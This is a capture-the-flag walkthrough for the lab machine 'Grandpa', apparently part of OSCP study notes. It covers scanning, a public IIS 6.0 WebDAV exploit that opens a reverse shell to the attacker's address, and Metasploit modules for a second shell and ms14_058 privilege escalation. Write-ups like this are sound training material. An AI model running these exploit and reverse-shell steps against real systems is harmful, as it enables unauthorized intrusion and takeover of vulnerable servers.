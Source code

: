 ## Grandpa

Difficulty: Easy

### User Flag

Port 80 is open using Microsoft IIS httpd 6.0 and webdav.

```
rustscan -a 10.10.10.14 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/c354a3d9-28ff-4747-94c7-61550471b8c2)

We can't upload any file with webdav.

```
davtest -url http://10.10.10.14
```

![davtest](https://github.com/b1d0ws/OSCP/assets/58514930/d7d06e6e-0fec-4be5-b82d-5e1553b0881d)

But there is a public exploit for IIS and Webdav.

```
python2 exploit.py 10.10.10.14 80 10.10.14.21 1337
```

![searchingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/a98659e7-6075-4128-a914-8312e2542920)

![revShell](https://github.com/b1d0ws/OSCP/assets/58514930/ad7e4676-df54-4b85-8a67-d8ec7db1a8fb)

<br>

Since we need metasploit to privilege escalation, we will use msfconsole to get another reverse shell.

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
```

![metasploitFirstShell](https://github.com/b1d0ws/OSCP/assets/58514930/4ac6a93d-f0e2-4a6b-9a31-6a992de3dccc)

<br>

### Root Flag

Using posti/multi/recon/local_exploit_suggester we find a lot of vulnerabilities. Let's use ms14_058.

```
migrate 1956 (wmiprvse.exe)
exploit/windows/local/ms14_058_track_popup_menu
```

![privilegeEscalation](https://github.com/b1d0ws/OSCP/assets/58514930/8687373e-fb0a-48a0-ab57-07f40877f794)

### Others

You can enumerate privilege escalation exploits with windows-exploit-suggester.py

```
systeminfo

# Put the output to a file and use windows-explot-suggester.py

python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -d 2021-04-19-mssb.xls -i sysinfo
```
